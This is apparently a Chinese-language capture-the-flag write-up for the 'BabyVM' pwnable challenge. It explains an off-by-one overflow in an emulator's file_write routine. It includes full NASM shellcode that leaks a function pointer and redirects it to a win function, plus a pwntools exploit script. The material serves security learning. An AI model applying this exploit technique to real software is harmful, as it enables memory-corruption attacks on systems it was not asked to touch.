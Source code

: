 ### 分类：

- shellcode编写



### 描述

- 程序要求输入一段shellcode，然后在x86虚拟机中运行这段代码。因为虚拟机环境是隔离的，传统shellcode不能达到目的。

- 虚拟机注册了系统调用hook，运行syscall指令会进入对应的hook函数：

  ```c
  uc_hook_add(uc,&trace1,2,hook_syscall,0,1,0,699);
  ```

  ```c
  void hook_syscall(uc_engine *uc,void *user_data)
  
  {
    long in_FS_OFFSET;
    uint64_t rax;
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    uc_reg_read(uc,0x23,&rax);
    if (rax == 1) {
      sys_write(uc);
    }
    else if (rax == 0) {
      sys_read(uc);
    }
    else if (rax == 2) {
      sys_open(uc);
    }
    else {
      printf("ERROR: unknown syscall rax=0x%lx\n",rax);
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                      /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
  ```



   另外，虚拟机环境中默认打开了三个文件stdin、stdout、和flag文件：

![image-20220605214158981](.assets/BabyVM/image-20220605214158981.png)

   可以看到fd=2，里面包括两个函数指针（红框部分），当发起read、write系统调用最终会运行这些函数。



- 溢出点：

  ```c
  int file_write(File *self,char *buffer,size_t size)
  
  {
    size_t local_20;
    
    local_20 = size;
    if ((self->size < size) && (0x200 < size)) {
      local_20 = 0x200;                                     // A
    }
    self->size = local_20;                                  // B
    memcpy(self->contents,buffer,local_20 + 1);             // C
    return (int)local_20;
  }
  ```

  当传入size=0x201时，A行会执行，B行将File结构体的size字段赋值为0x0200；
  
  接着，C行会读入0x201个字符，也就是size字段的最低一位会被buffer覆盖，得到一个大到足以覆盖函数指针的size值；

- 因为是PIE编译，得先暴露file_read地址，计算offset得到win地址后覆盖fops_read；



### 脚本

shellcode.s:

```assembly
BITS 64

jmp dummy_func
entry:
; buffer:
; |padding|size|fops_read|
; |0x200  |8   |8        |
pop r8
lea r9, [r8 + 0x200]
lea r10, [r9 + 0x8]

; off by 1
; fd->size = 0x210
mov qword [r9], 0x210
mov rdi, 2  ; fd
mov rsi, r8
mov rdx, 0x201
mov rax, 1
syscall

; leak address
mov rdx, 0x210
xor rax, rax
syscall

; fp->ops.fops_read = win
mov rax, [r10]
sub rax, 283           ; 283 -> read addr - win addr
mov [r10], rax
mov rax, 1
syscall

; call win
xor rax, rax
syscall

hlt
jmp $
dummy_func:
call entry
buffer:

```

编译：

`nasm -f bin shellcode.s`

`export LD_LIBRARY_PATH=.`



exploit.py:

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

f = open('./shellcode', 'rb')
payload = f.read()
print(payload)
payload = payload.ljust(0x1000, b'\x00')
f.close()

# p = remote('svc.pwnable.xyz', 30044)
p = process('./challenge')

# gdb.attach(p, '''
#     b *sys_open+152
#     b *sys_read+131
#     b *file_write+96
# ''')
p.sendlineafter(b'(y/n)\n', b'n')
p.sendafter(b'Send your program\n', payload)

p.recvuntil(b'Running the vm\n')

p.interactive()

```

